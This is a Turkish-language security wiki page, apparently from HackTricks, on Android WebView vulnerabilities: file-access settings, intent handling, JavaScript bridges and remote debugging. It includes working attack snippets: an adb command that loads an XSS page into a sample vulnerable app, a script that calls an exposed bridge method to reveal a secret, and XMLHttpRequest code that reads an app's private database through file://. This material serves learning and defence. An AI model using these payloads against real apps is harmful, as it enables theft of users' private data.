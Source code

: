 # Webview Saldırıları

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## WebView Yapılandırmaları ve Güvenlik Rehberi

### WebView Açıklarının Genel Görünümü

Android geliştirmesinin kritik bir yönü, WebView'ların doğru bir şekilde yönetilmesidir. Bu rehber, WebView kullanımına ilişkin riskleri azaltmak için ana yapılandırmaları ve güvenlik uygulamalarını vurgulamaktadır.

![WebView Örneği](<../../.gitbook/assets/image (1190).png>)

### **WebView'larda Dosya Erişimi**

Varsayılan olarak, WebView'lar dosya erişimine izin verir. Bu işlevsellik, Android API seviyesi 3 (Cupcake 1.5) itibarıyla mevcut olan `setAllowFileAccess()` metodu ile kontrol edilir. **android.permission.READ\_EXTERNAL\_STORAGE** iznine sahip uygulamalar, dış depolamadan dosyaları dosya URL şeması (`file://path/to/file`) kullanarak okuyabilir.

#### **Kaldırılan Özellikler: Evrensel ve URL'lerden Dosya Erişimi**

* **Dosya URL'lerinden Evrensel Erişim**: Bu kaldırılan özellik, dosya URL'lerinden çapraz kökenli istekleri mümkün kılmakta olup, potansiyel XSS saldırıları nedeniyle önemli bir güvenlik riski taşımaktadır. Varsayılan ayar, Android Jelly Bean ve daha yeni sürümler için devre dışıdır (`false`).
* Bu ayarı kontrol etmek için `getAllowUniversalAccessFromFileURLs()` kullanın.
* Bu ayarı değiştirmek için `setAllowUniversalAccessFromFileURLs(boolean)` kullanın.
* **Dosya URL'lerinden Dosya Erişimi**: Bu özellik de kaldırılmıştır ve diğer dosya şeması URL'lerinden içerik erişimini kontrol etmiştir. Evrensel erişimde olduğu gibi, varsayılan ayarı güvenliği artırmak için devre dışıdır.
* Kontrol etmek için `getAllowFileAccessFromFileURLs()` ve ayarlamak için `setAllowFileAccessFromFileURLs(boolean)` kullanın.

#### **Güvenli Dosya Yükleme**

Varlıklara ve kaynaklara erişirken dosya sistemi erişimini devre dışı bırakmak için `setAllowFileAccess()` metodu kullanılır. Android R ve üzeri sürümlerde varsayılan ayar `false`'dır.

* `getAllowFileAccess()` ile kontrol edin.
* `setAllowFileAccess(boolean)` ile etkinleştirin veya devre dışı bırakın.

#### **WebViewAssetLoader**

**WebViewAssetLoader** sınıfı, yerel dosyaları yüklemek için modern bir yaklaşımdır. Yerel varlıklara ve kaynaklara erişmek için http(s) URL'leri kullanır ve Aynı-Köken politikası ile uyumlu olup CORS yönetimini kolaylaştırır.

### loadUrl

Bu, bir webview'de rastgele URL'leri yüklemek için kullanılan yaygın bir işlevdir:
```java
webview.loadUrl("<url here>")
```
Ofc, potansiyel bir saldırganın bir uygulamanın yükleyeceği **URL'yi** asla kontrol edememesi gerekir.

### **JavaScript ve Intent Şeması Yönetimi**

* **JavaScript**: WebView'larda varsayılan olarak devre dışı bırakılmıştır, `setJavaScriptEnabled()` ile etkinleştirilebilir. JavaScript'i uygun korumalar olmadan etkinleştirmenin güvenlik açıkları oluşturabileceği için dikkatli olunmalıdır.
* **Intent Şeması**: WebView'lar `intent` şemasını işleyebilir, dikkatli yönetilmezse istismar durumlarına yol açabilir. Bir örnek güvenlik açığı, çapraz site betikleme (XSS) saldırılarını gerçekleştirmek için istismar edilebilecek "support\_url" adlı bir WebView parametresinin açığa çıkmasıyla ilgiliydi.

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

adb kullanarak istismar örneği:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Köprüsü

Android, **JavaScript**'in bir WebView içinde **yerel Android uygulama fonksiyonlarını** çağırmasını sağlayan bir özellik sunar. Bu, JavaScript'i yerel Android işlevleriyle entegre eden `addJavascriptInterface` yönteminin kullanılmasıyla gerçekleştirilir ve buna _WebView JavaScript köprüsü_ denir. Dikkatli olunması önerilir çünkü bu yöntem, WebView içindeki tüm sayfaların kayıtlı JavaScript Arayüz nesnesine erişmesine izin verir ve bu arayüzler aracılığıyla hassas bilgilerin ifşa edilmesi durumunda bir güvenlik riski oluşturur.

* **Aşırı dikkat gereklidir** çünkü 4.2'nin altındaki Android sürümlerini hedefleyen uygulamalar için kötü niyetli JavaScript aracılığıyla uzaktan kod yürütme olanağı sağlayan bir zafiyet bulunmaktadır.

#### JavaScript Köprüsü Uygulaması

* **JavaScript arayüzleri**, bir sınıf yönteminin JavaScript'e açıldığı örneklerde gösterildiği gibi, yerel kodla etkileşimde bulunabilir:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Köprüsü, WebView'a bir arayüz ekleyerek etkinleştirilir:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* JavaScript aracılığıyla potansiyel istismar, örneğin, bir XSS saldırısı yoluyla, açığa çıkarılmış Java yöntemlerinin çağrılmasını sağlar:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Riskleri azaltmak için, **JavaScript köprü kullanımını** APK ile gönderilen kodla sınırlayın ve uzaktan kaynaklardan JavaScript yüklenmesini engelleyin. Eski cihazlar için minimum API seviyesini 17 olarak ayarlayın.

### Yansıma Tabanlı Uzaktan Kod Çalıştırma (RCE)

* Belirli bir yükü çalıştırarak RCE elde etmeyi sağlayan belgelenmiş bir yöntem vardır. Ancak, `@JavascriptInterface` notasyonu yetkisiz yöntem erişimini engelleyerek saldırı yüzeyini sınırlar.

### Uzaktan Hata Ayıklama

* **Uzaktan hata ayıklama**, **Chrome Geliştirici Araçları** ile mümkündür ve WebView içeriğinde etkileşim ve keyfi JavaScript çalıştırma imkanı sağlar.

#### Uzaktan Hata Ayıklamayı Etkinleştirme

* Uzaktan hata ayıklama, bir uygulama içindeki tüm WebView'lar için etkinleştirilebilir:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Uygulamanın hata ayıklanabilir durumuna bağlı olarak hata ayıklamayı koşullu olarak etkinleştirmek için:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Rastgele dosyaları dışarı aktarma

* XMLHttpRequest kullanarak rastgele dosyaların dışarı aktarımını gösterir:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Referanslar

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
